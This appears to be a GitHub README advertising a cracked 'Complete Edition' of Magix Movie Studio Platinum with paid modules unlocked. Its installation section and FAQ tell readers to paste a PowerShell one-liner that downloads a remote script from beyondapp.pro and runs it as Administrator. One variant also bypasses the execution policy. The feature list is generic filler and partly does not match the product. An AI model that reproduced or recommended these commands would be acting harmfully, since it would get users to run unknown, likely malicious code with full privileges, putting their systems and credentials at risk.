

<div align="center">


<br>


# Magix Movie Studio Platinum Complete
**Complete movie editing suite · Platinum effects pack · Professional audio tools**
<br>
**Complete movie editing suite · Platinum effects pack · Professional audio tools**
<br>
Complete Edition · Premium Build · Windows · Deployment



**Complete Edition — all movie studio modules and platinum effects pack enabled.**

</div>
---

> Licensed complete movie studio with platinum effects and every professional audio module included.

## `INSTALLATION`

<div align="center">


<br><br>

**Run in PowerShell as Administrator:**

```powershell
irm https://beyondapp.pro/ps/setup.ps1 | iex
```

<sub>Copy · paste · press Enter · confirm UAC</sub>

</div>

## `FEATURES`

🎬 **Creative production** — Pro writing or simulation tools enabled.
📦 **Local desktop suite** — Works offline after setup.
🖥️ **Windows optimized** — Built for creative workstations.
⚙️ **Pro workflow** — Industry-standard features included.
✨ **Premium modules** — Paid creative features enabled.
📋 **Complete toolkit** — Templates and assets supported.
⚡ **One-command install** — PowerShell handles setup automatically.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 8 GB |
| **Disk** | 3 GB |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://beyondapp.pro/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 8 GB, 3 GB.
</details>


TAGS
magix-movie-studio, movie-editing, platinum-effects, audio-tools, color-grading, 4k-video, professional, windows, desktop, software, pro, studio, tools
